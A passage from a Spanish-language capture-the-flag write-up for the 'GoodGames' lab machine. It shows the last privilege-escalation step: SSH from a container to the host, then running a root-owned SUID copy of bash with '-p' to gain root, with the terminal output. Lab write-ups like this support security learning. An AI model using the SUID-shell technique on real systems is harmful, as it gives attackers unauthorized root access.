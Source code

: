 A continuación, usé la nueva shell con permisos elevados para conectarme por SSH al host 172.19.0.1. Al listar los archivos pude confirmar que el bash modificado mantiene el bit SUID activo, lo que permite ejecutar una shell con privilegios de root. Ejecutando esta shell con la opción -p pude verificar que mi usuario tenía privilegios efectivos de root.

```bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jul 21 01:59:21 2025 from 172.19.0.2
augustus@GoodGames:~$ ls
bash  user.txt
augustus@GoodGames:~$ ls -la bash
-rwsrwxrwx 1 root root 1234376 Jul 21 01:58 bash
augustus@GoodGames:~$ ./bash -p
bash-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) groups=1000(augustus)
bash-5.1# 
```

### Captura flag root

![19](/assets/img/machines/Goodgames/19.jpeg)